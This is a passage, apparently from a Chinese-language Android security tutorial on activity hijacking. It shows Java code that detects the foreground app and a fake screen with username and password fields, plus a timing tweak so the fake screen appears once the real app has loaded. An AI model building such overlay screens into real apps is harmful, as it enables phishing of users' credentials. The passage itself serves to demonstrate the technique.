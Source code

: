 ```
                e.printStackTrace();
            }
        }
        return foregroundProcess;
 
    }
 
    private static String read(String path) throws IOException {
        StringBuilder output = new StringBuilder();
        BufferedReader reader = new BufferedReader(new FileReader(path));
        output.append(reader.readLine());
 
        for (String line = reader.readLine(); line != null; line = reader
                .readLine()) {
            output.append('\n').append(line);
        }
        reader.close();
        return output.toString().trim();// 不调用trim()，包名后会带有乱码
    }
 
}

```

我们继续编写劫持替换的测试类

```
public class SecondActivity extends AppCompatActivity {
    private static Boolean flag ;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_second);
        Log.w("TAGSecod","切换");
        EditText name = findViewById(R.id.editTextTextPersonName);
        EditText passward = findViewById(R.id.editTextTextPassword);
        Button button = findViewById(R.id.button);
            button.setOnClickListener(new View.OnClickListener() {
                @Override
                public void onClick(View v) {
                    Log.w("TAG", "成功劫持进入该界面");
                    flag =false;
                }
            });
 
    }
}

```

最后在我们的配置文件中加入相应的权限和配置信息：

我们需要将服务的时间设置成 6 秒，避免程序界面还未加载就劫持了
